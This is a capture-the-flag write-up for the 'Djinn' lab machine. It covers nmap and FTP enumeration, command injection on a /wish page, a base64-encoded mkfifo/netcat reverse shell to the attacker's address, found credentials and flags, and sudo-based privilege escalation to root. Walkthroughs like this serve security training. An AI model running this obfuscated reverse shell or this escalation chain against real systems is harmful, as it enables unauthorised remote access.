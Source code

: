 [*] Djinn [*]

# Date : 29/01/2022

# ->Enumeration Phase:

# Nmap 7.91 scan initiated Sat Jan 29 14:17:58 2022 as: nmap -sC -sV -vv -p- -oN nmap_all 192.168.0.111
Nmap scan report for 192.168.0.111
Host is up, received arp-response (0.000079s latency).
Scanned at 2022-01-29 14:17:59 IST for 91s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT     STATE    SERVICE REASON              VERSION
21/tcp   open     ftp     syn-ack ttl 64      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.109
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   filtered ssh     port-unreach ttl 64
1337/tcp open     waste?  syn-ack ttl 64
| fingerprint-strings: 
|   NULL: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '*', 7)
|   RPCCheck: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '/', 9)
7331/tcp open     http    syn-ack ttl 64      Werkzeug httpd 0.16.0 (Python 2.7.15+)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.91%I=7%D=1/29%Time=61F4FF47%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1BC,"\x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\
SF:x20_\x20_\x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20
SF:__\x20___\x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\
SF:x20`\x20_\x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x
SF:20`\x20_\x20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\
SF:x20\|\x20\|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\
SF:|\x20\|\x20\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\
SF:x20\|_\|\\___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:n\nLet's\x20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths
SF:\nAnswer\x20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20
SF:you\x20your\x20gift\.\n\(4,\x20'\*',\x207\)\n>\x20")%r(RPCCheck,1BC,"\x
SF:20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\x20_\x20_\
SF:x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20__\x20___\
SF:x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\x20`\x20_\
SF:x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x
SF:20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\x20\|\x20\
SF:|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\|\x20\|\x2
SF:0\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\x20\|_\|\\
SF:___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\nLet's\x
SF:20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths\nAnswer\x
SF:20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20you\x20you
SF:r\x20gift\.\n\(9,\x20'/',\x209\)\n>\x20");
MAC Address: 08:00:27:74:EF:18 (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 29 14:19:30 2022 -- 1 IP address (1 host up) scanned in 91.95 seconds

/message.txt:

    @nitish81299 I am going on holidays for few days, please take care of all the work. 
    And don't mess up anything.

/cred.txt:

    nitu:81299

/game.txt:

    oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
    final level and get the prize.

# gobuster found:

    /wish                 (Status: 200) [Size: 385]
    /genie                (Status: 200) [Size: 1676]


# ->Exploitation Phase:

>> command injection vulnerbility at /wish page. all characters are blocked expect '|'.
>> use following command for reverse shell.
>> convert reverse shell into base64 .

>> # echo "cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4wLjEwOSA4ODg4ID4vdG1wL2YK" | base64 -d | bash
>> got www-data shell.
>> in /.dev/creds.txt file some creds are found.

>> # nitish:p4ssw0rdStr3r0n9

# USER.txt : 10aay8289ptgguy1pvfa73alzusyyx3c

# ->PostExploitation Phase:

>> run sudo -l
    ->> (sam)NOPASSWORD: /usr/bin/genie
        ans: sudo -u sam genie -cmd new
>> obtain a shell of sam.

>> run sudo -l
    ->> (root) NOPASSWORD : /root/lago
        ans : choose options 2 and type 'num': got a root shell

# Proof.txt

    _                        _             _ _ _ 
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/       
djinn pwned...
__________________________________________________________________________

Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc
Path: /root
Date: Sun Jan 30 13:39:32 IST 2022
Whoami: root
__________________________________________________________________________

By @0xmzfr

Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)




